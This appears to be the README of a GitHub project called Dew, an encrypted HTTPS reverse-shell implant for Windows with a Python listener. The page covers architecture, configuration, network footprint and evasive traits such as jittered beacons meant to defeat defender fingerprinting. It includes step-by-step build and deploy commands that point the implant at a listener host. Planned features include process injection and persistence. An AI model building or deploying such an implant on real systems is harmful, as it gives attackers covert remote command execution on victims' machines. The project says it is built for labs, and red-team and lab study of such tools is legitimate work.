

<div align="center">



<br>

Dew is an encrypted HTTPS reverse shell for Windows. A tiny C implant (~37 KB) polls a Python listener over TLS, with XChaCha20-Poly1305 encrypted command payloads, jittered callbacks, and a pre-shared key for defense-in-depth beyond the transport layer.

</div>

<br>

## Table of Contents

- [Highlights](#highlights)
- [Quick Start](#quick-start)
- [Architecture](#architecture)
- [Configuration](#configuration)
- [Network Footprint](#network-footprint)
- [Project Structure](#project-structure)
- [Future Work](#future-work)

---

## Highlights

<table>
<tr>
<td width="50%">

### Double Encrypted
All traffic is HTTPS via native WinHTTP. Command payloads are additionally encrypted with XChaCha20-Poly1305 (AEAD) using a pre-shared key — two independent encryption layers.

</td>
<td width="50%">

### ~37 KB Binary
Minimal Monocypher extraction (~370 lines) provides XChaCha20-Poly1305 without pulling in a full crypto library. Stripped and size-optimized with `-Os -s`.

</td>
</tr>
<tr>
<td width="50%">

### Jittered Callbacks
Configurable sleep interval with centered randomized jitter using `RtlGenRandom`. No predictable beacon pattern for defenders to fingerprint.

</td>
<td width="50%">

### No Dependencies
Zero third-party DLLs. WinHTTP and advapi32 are native Windows libraries. Monocypher is vendored and compiled in. Nothing to install on the target.

</td>
</tr>
<tr>
<td width="50%">

### Piped Output
Commands execute via `CreateProcess` with `cmd.exe /c`, capturing stdout and stderr through anonymous pipes. Output capped at 64 KB with truncation notification.

</td>
<td width="50%">

### Clean Shutdown
A reserved `EXIT` command provides remote shutdown. The implant cleans up and exits gracefully — no orphaned processes or dangling connections.

</td>
</tr>
</table>

---

## Quick Start

### Prerequisites

| Requirement | Version |
|-------------|---------|
| MinGW-w64 (cross-compiler) | Latest |
| Python | >= 3.8 |
| PyNaCl | `pip install pynacl` |
| Platform (build) | Linux or Windows with MinGW |

### Build & Deploy

```bash
# Clone
git clone https://github.com/Real-Fruit-Snacks/Dew.git
cd Dew

# Build — generates a random PSK, compiles, prints the listener command
./build.sh 10.10.14.1 443

# Or specify your own key
./build.sh 10.10.14.1 443 <64-char-hex>

# Start the listener (build.sh prints this command with your key)
python listener.py --lport 443 --key <key>

# Deploy dew.exe to target
```

> The build script generates a random 256-bit PSK if you don't provide one, cross-compiles a ~37 KB PE, and prints the exact listener command with your key. One command.

---

## Architecture

```
[Target]                          [Operator]
 dew.exe  ──── HTTPS/TLS ────>  listener.py
          <── encrypted cmd ───
          ── encrypted output ─>
```

| Layer | Implementation |
|-------|----------------|
| **Transport** | WinHTTP with native TLS, system proxy support |
| **Encryption** | XChaCha20-Poly1305 (Monocypher), pre-shared key |
| **Wire Format** | `[nonce(24)][mac(16)][ciphertext]`, fresh nonce per message |
| **Listener** | Python HTTPServer with TLS, auto self-signed cert generation |
| **Check-in** | Encrypted 8-byte beacon ID on each poll |
| **Randomization** | `RtlGenRandom` for nonces, jitter, and beacon ID |

### Tech Stack

| Component | Technology |
|-----------|------------|
| **Implant** | C (MinGW), WinHTTP, Monocypher |
| **Listener** | Python 3, PyNaCl, ssl module |
| **Crypto** | XChaCha20-Poly1305 (vendored Monocypher extraction) |
| **Theme** | Catppuccin Mocha |

---

## Configuration

### Compile-time (Makefile variables)

| Variable | Default | Description |
|----------|---------|-------------|
| `LHOST` | `127.0.0.1` | Listener IP/domain |
| `LPORT` | `443` | Listener port |
| `KEY` | Random 256-bit | Pre-shared key (64 hex chars) |

### Implant constants (`dew.c`)

| Define | Default | Description |
|--------|---------|-------------|
| `SLEEP_BASE` | `5` | Polling interval (seconds) |
| `JITTER_PCT` | `30` | Jitter percentage (centered) |
| `USER_AGENT` | Chrome UA | HTTP User-Agent string |
| `MAX_OUTPUT` | `65536` | Shell output truncation limit |

### Listener arguments

| Flag | Default | Description |
|------|---------|-------------|
| `--lhost` | `0.0.0.0` | Listen address |
| `--lport` | `443` | Listen port |
| `--key` | Required | 64-char hex PSK |
| `--cert` | Auto-generated | Path to TLS certificate |
| `--cert-key` | Auto-generated | Path to TLS private key |

---

## Network Footprint

| Aspect | Detail |
|--------|--------|
| **Protocol** | HTTPS on port 443 (default) |
| **Endpoints** | `POST /poll` (beacon check-in), `POST /result` (command output) |
| **User-Agent** | `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 ...` |
| **Proxy** | System proxy via WinHTTP |
| **Jitter** | Centered randomized callback interval |
| **Payload** | All POST bodies are encrypted binary blobs |

---

## Project Structure

```
dew/
├── dew.c              # Implant source (~390 lines)
├── monocypher.c       # Vendored XChaCha20-Poly1305 extraction (~370 lines)
├── monocypher.h       # Minimal crypto header (4 exported functions)
├── listener.py        # Python HTTPS listener with interactive CLI
├── build.sh           # One-command build script
├── Makefile           # Cross-compilation targets
└── docs/
    ├── banner.svg     # Repository banner
    └── index.html     # GitHub Pages landing page
```

---

## Future Work

- Built-in commands (`ps`, `ls`, `whoami`) via Windows APIs
- File upload/download
- SaaS-disguised URI paths
- Process injection / migration
- Persistence mechanisms
- SOCKS proxy pivoting

---

<div align="center">

**Built for labs. Designed to be tiny.**

*Dew — encrypted HTTPS reverse shell*

</div>
